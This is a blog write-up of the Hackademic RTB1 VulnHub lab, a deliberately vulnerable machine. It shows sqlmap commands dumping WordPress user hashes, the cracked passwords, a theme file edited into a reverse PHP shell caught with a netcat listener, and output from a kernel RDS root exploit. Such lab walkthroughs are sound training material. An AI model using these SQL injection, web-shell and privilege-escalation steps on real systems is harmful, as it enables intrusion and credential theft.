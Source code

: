 ```yaml
---
layout: post
title: "Pentest lab - Hackademic RTB1"
date: 2016-07-18 09:00:59 -0400
comments: true
categories: [pentesting, hacking, ctf]
keywords: pentesting, hacking, penetration testing, hacking lab, pentest lab, web hacking, ctf, hackademic, hackademic rtb1, vulnhub, writeup, walkthrough
description: Writeup for Hackademic RTB1
---
```


# Mission statement

Get root and read the contents of the file 'key.txt' in the root directory.

<!-- more -->

# Recon

I started with a port scan of the target, but only the 80 port is open:

{% img center /images/pentest/hackademic/rtb1-web.png 'hackademic' 'hackademic website' %}

I looked at the links and noticed the URL for the post is http://192.168.80.162/Hackademic_RTB1/?p=9 and for the archives is http://192.168.80.162/Hackademic_RTB1/?cat=1 . Before going to Sqlmap, I manually inserted quotes in the URLs and sure enough, a SQL error for the cat parameter:

{% img center /images/pentest/hackademic/rtb1-sqli.png 'sqli' 'sql error' %}

# Exploit

Next I enumerated the databases with Sqlmap:

``` plain
sqlmap -u "http://192.168.80.162/Hackademic_RTB1/?cat=1" --dbms=MySQL --dbs
available databases [3]:
[*] information_schema
[*] mysql
[*] wordpress
```

Since this is a web-based challenge, I proceeded to look into the wordpress database:

``` plain
sqlmap -u "http://192.168.80.162/Hackademic_RTB1/?cat=1" --dbms=MySQL -D wordpress --tables
Database: wordpress
[9 tables]
+-------------------+
| wp_categories     |
| wp_comments       |
| wp_linkcategories |
| wp_links          |
| wp_options        |
| wp_post2cat       |
| wp_postmeta       |
| wp_posts          |
| wp_users          |
+-------------------+
```

I further enumerated the wp_users table and here I am showing only the relevant information:

``` plain
user_pass				user_login
21232f297a57a5a743894a0e4a801fc3	NickJames
b986448f0bb9e5e124ca91d3d650f52c	JohnSmith
7cbb3252ba6b7e9c422fac5334d22054	GeorgeMiller
a6e514f9486b83cb53d8d932f9a04292	TonyBlack
8601f6e1028a8e8a966f6c33fcd9aec4	JasonKonnors
50484c19f1afdaf3841a0d821ed393d2	MaxBucky
```

Cracking the hashes revealed the passwords of all the users:

``` plain
admin
PUPPIES
q1w2e3
napoleon
maxwell
kernel
```

Then I went to the Wordpress login page at http://192.168.80.162/Hackademic_RTB1/wp-login.php and logged in as NickJames (assumed he was admin because of his password). But there was nothing extraordinary to be done with his privileges, just adding and editing posts. We have more users to try  though! When I reached GeorgeMiller, I noticed there were more actions available in the admin panel:

{% img center /images/pentest/hackademic/rtb1-panel.png 'dashboard' 'admin panel' %}

In the Presentation tab I could edit themes for the site. I picked the 404.php file and replaced its content with a line that would echo something first, so I don't waste my time with shells without checking if code is executed successfully. 

{% img center /images/pentest/hackademic/rtb1-404.png '404.php' 'php file edited' %}

When I went to the http://192.168.80.162/Hackademic_RTB1/wp-content/themes/starburst/404.php URL, I saw RCE displayed, so next I used the now-familiar reverse PHP shell from pentestmonkey. Set up my listener and visited the URL again to receive the shell:

``` plain
nc -vnlp 5555
listening on [any] 5555 ...
connect to [192.168.80.161] from (UNKNOWN) [192.168.80.162] 50723
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
 13:23:45 up  3:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=489(apache) groups=489(apache)
sh: no job control in this shell
```

## Privilege escalation

The shell kept echoing back the commands I was running but otherwise it worked fine. I didn't find anything interesting that I could use during local enumeration, so I then searched for privilege escalation exploits that might apply to the kernel version 2.6.31 found on the box. The exploit that worked was the [RDS privilege escalation exploit](https://www.exploit-db.com/exploits/15285/) by Dan Rosenberg. You can also find it on Kali with Searchsploit. I compiled it on my machine with the *-m32* flag for the target architecture and transfered it via netcat. Then I ran it and I stared a bit at the blinking cursor before confirming that it gave me root:

``` plain
sh-4.0$ ./rds
./rds
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
id
uid=0(root) gid=0(root)
cat /root/key.txt
Yeah!!
You must be proud because you 've got the password to complete the First *Realistic* Hackademic Challenge (Hackademic.RTB1) :)

$_d&jgQ>>ak\#b"(Hx"o<la_%

Regards,
mr.pr0n || p0wnbox.Team || 2011
http://p0wnbox.com
```

# Debriefing

The machine looked pretty tightly locked with only a web server running. But the WordPress version was contained a known SQLi exploit that handed down the hashes for the users. One user had the rights to upload code on the server and facilitated geting (limited) access on the target. The kernel was vulnerable to a local root exploit, and from there it was game over.

GG, nice VM! Now let's end with some wisdom straight from the cow's mouth:

``` plain
/ Don't relax! It's only your tension \
\ that's holding you together.        /
 -------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```





